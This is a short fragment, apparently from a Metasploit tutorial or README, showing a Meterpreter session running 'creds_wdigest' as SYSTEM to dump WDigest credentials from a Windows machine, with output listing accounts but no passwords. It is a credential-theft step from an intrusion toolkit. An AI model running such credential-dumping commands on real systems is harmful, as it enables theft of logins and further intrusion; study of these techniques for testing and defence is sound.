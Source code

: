 Success.
meterpreter > creds_wdigest
[+] Running as SYSTEM
[*] Retrieving wdigest credentials
wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-PL99PE8$  WORKGROUP        (null)
test              DESKTOP-PL99PE8  (null)


meterpreter >
```
